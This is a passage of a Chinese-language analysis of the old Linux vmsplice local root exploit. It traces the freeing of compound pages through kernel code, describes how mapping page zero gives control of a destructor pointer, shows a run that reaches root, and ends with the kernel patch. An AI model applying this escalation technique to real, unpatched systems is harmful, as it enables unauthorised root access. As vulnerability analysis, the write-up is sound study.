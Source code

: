 ```c
		__page_cache_release(page);
}
```
只要page指向的内存页是[复合页](https://lwn.net/Articles/619514/)，那就会执行put_compound_page函数:
```c
static void put_compound_page(struct page *page)
{
	page = compound_head(page);
	if (put_page_testzero(page)) {
		compound_page_dtor *dtor;

		dtor = get_compound_page_dtor(page);
		(*dtor)(page);
	}
}

static inline compound_page_dtor *get_compound_page_dtor(struct page *page)
{
	return (compound_page_dtor *)page[1].lru.next;
}
```
所以内核最终会执行page[1]里面的lru字段的next函数指针。由于pages数组里的指针已经被覆盖为0或者4096了，所以我们可以在用户空间mmap(0), mmap(4096)，然后我们可以控制page[1]的相关字段，把next字段覆盖为提权函数，game over！
```shell
w0lfzhang@w0lfzhang-666:~/Desktop$ ./pwn2
-----------------------------------
 Linux vmsplice Local Root Exploit
 By qaaz
-----------------------------------
[+] mmap: 0x0 .. 0x1000
[+] page: 0x0
[+] page: 0x20
[+] mmap: 0x1000 .. 0x2000
[+] page: 0x1000
[+] mmap: 0xb7df6000 .. 0xb7e28000
[+] root
# id
uid=0(root) gid=0(root) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),109(lpadmin),115(admin),124(sambashare),1000(w0lfzhang)
```

## Patch
```c
diff --git a/fs/splice.c b/fs/splice.c
index 14e2262..9b559ee 100644
--- a/fs/splice.c
+++ b/fs/splice.c
@@ -1234,7 +1234,7 @@ static int get_iovec_page_array(const struct iovec __user *iov,
 		if (unlikely(!len))
 			break;
 		error = -EFAULT;
-		if (unlikely(!base))
+		if (!access_ok(VERIFY_READ, base, len))
 			break;
 
 		/*
```
patch也很简单，检测base~base+len内存区域是否为有效的用户空间地址即可。

